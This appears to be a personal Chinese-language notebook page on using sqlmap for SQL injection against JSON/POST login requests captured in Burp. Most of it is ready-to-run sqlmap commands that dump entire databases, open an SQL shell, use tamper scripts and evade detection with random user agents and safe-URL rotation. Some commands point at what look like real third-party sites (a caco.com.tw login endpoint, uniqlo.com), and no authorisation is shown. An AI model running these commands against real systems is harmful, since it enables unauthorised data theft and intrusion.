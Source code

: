 # sqlmap JSON/POST
從 burp 將整個 request 存成 txt
手動在 Host: 後綴加上 `:443` 用以指定 https
手動在要測試的參數的值，後綴加上 `*` 用以指定參數
`-r REQUESTFILE      Load HTTP request from a file`
```shell
$ sqlmap -r loginRequest2.txt -T4 --random-agent --current-db --dbs --tables --dump --level 5 --risk 3 --threads 10 --sql-shell --dbms=Mysql
```

使用帶 json 的，sqlmap 不支援 `-p` 指定參數，必須用星號

```shell
sqlmap -u https://www.caco.com.tw/security/memberidentify/login --data="id=ddf" -p "id" -T4 -v3 --level 5 --risk 3  --tables --dump-all 

sqlmap -u https://www.caco.com.tw/security/memberidentify/login --data="id=ddf" -p "id" -T4 -v3 --level 5 --risk 3 --random-agent --force-ssl --tables --dump-all --hex

sqlmap -u https://www.caco.com.tw/security/memberidentify/login --data="id=ddf" -p "id" -T4 -v3 --level 5 --risk 3 --random-agent --force-ssl --fresh-queries --tables --dump-all --no-cast

sqlmap -r try3woutstar.txt -T4 --random-agent --force-ssl --banner --current-db --dbs --tables --dump-all --level 5 --risk 3 --threads 10 --sql-shell --fresh-queries --proxy="http://192.168.3.19:9527" -v 3 --randomize

sqlmap -r 1.txt -v 3 -T4 --force-ssl --banner --dbs --tables --dump-all --level 5 --risk 3 --threads 10 --sql-shell --proxy="http://192.168.3.19:9527"

sqlmap -r try3.txt -T6 --random-agent --force-ssl --banner --current-db --dbs --tables --dump-all --level 5 --risk 3 --threads 10 --sql-shell --dbms=Mysql --fresh-queries --no-cast --proxy="http://192.168.3.19:9527" -v 3 --safe-url="https://www.uniqlo.com" --safe-freq 10 --randomize --tamper="space2mysqlblank.py"

sqlmap -r try3.txt -T4 -v3 --level 5 --risk 3  --tables --dump-all 

```
[SQLMap - Cheetsheat - HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap)

-   --safe-url: 隔一会就访问一下的安全URL
-   --safe-post: 访问安全URL时携带的POST数据
-   --safe-req: 从文件中载入安全HTTP请求
-   --safe-freq: 每次测试请求之后都会访问一下的安全URL


AND boolean based found reflective values
![[2022-07-07_12-28.png]]